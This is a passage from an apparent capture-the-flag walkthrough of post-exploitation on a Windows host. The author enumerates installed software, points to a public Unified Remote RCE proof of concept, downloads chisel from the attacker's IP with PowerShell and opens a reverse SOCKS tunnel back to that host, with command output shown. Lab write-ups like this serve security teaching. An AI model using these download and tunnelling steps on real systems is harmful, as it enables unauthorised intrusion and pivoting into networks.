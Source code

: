 ```
PS C:\Nuxeo > ls '\Program Files (x86)\\'

    Directory: C:\Program Files (x86)


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          6/3/2021   7:11 AM                Common Files
d-----         10/3/2021  11:08 PM                Internet Explorer
d-----          6/3/2021   8:09 PM                Microsoft
d-----         12/7/2019   6:48 AM                Microsoft.NET
d-----         6/26/2021  10:15 PM                Mozilla Maintenance Service
d-----         6/12/2021   2:51 AM                MSBuild
d-----         6/12/2021   2:51 AM                Reference Assemblies
d-----         6/12/2021  12:21 AM                Unified Remote 3
d-----          4/9/2021   6:48 AM                Windows Defender
d-----         7/18/2021  12:20 AM                Windows Mail
d-----         12/7/2019   6:44 AM                Windows NT
d-----          4/9/2021   6:48 AM                Windows Photo Viewer
d-----         12/7/2019   1:25 AM                WindowsPowerShell

```

Checking google for known vulnerabilities we find [this PoC](https://www.exploit-db.com/exploits/49587), which seems promising to achieve RCE. A quick check with netstat shows the port mentioned is indeed listening on the machine.

```
PS C:\Nuxeo> netstat -anp tcp | sls -pattern "9512"

  TCP    0.0.0.0:9512           0.0.0.0:0              LISTENING

```

To access it from the outside we upload chisel to the machine and forward the traffic with its socks proxy.

```
PS C:\Nuxeo> iwr http://10.10.14.74/chisel.exe -o C:\windows\temp\chisel.exe
```

```
$ chisel server -p 9000 -reverse
2021/10/10 20:13:55 server: Reverse tunnelling enabled
2021/10/10 20:13:55 server: Fingerprint R4SdYmLJLpL1Y7N1fmNYM4xpjHQaMOKRK9XJ5WHk+eY=
2021/10/10 20:13:55 server: Listening on http://0.0.0.0:9000
```

```
PS C:\Nuxeo> start-process -filepath C:/windows/temp/chisel.exe -argumentlist "client","10.10.14.74:9000","R:socks"
```

```
$ chisel server -p 9000 -reverse
2021/10/10 20:13:55 server: Reverse tunnelling enabled
2021/10/10 20:13:55 server: Fingerprint R4SdYmLJLpL1Y7N1fmNYM4xpjHQaMOKRK9XJ5WHk+eY=
2021/10/10 20:13:55 server: Listening on http://0.0.0.0:9000
2021/10/10 20:14:13 server: session#1: Client version (1.7.6) differs from server version (0.0.0-src)
2021/10/10 20:14:13 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
